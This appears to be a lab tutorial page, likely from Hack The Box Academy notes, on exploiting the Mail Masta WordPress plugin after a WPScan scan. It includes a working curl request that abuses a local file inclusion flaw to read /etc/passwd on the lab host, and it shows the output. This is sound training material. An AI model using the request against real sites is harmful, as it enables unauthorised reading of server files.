

# Exploitation

## Vulnerable plugin

### Leveraging WPScan results

The following report generated by WPScan tells us that the website uses an older version of WordPress (5.3.2) and an outdated theme called `Twenty Twenty`. WPScan identified two vulnerable plugins, `Mail Masta 1.0` and `Google Review Slider`. This version of the `Mail Masta` plugin is known to be vulnerable to SQLi as well as _Local File Inclusion_ (_LFI_). The report output also contains URLs to PoCs, which provide information on how to exploit these vulnerabilities.

Let's verify if the LFI can be exploited based on this [exploit-db report](https://academy.hackthebox.com/module/17/section/44). The exploit states that any unauthenticated user can read local files through the path: `/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`.

#### LFI using browser



We can validate this vulnerability using cURL on the CLI:

```console
$ curl http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
```
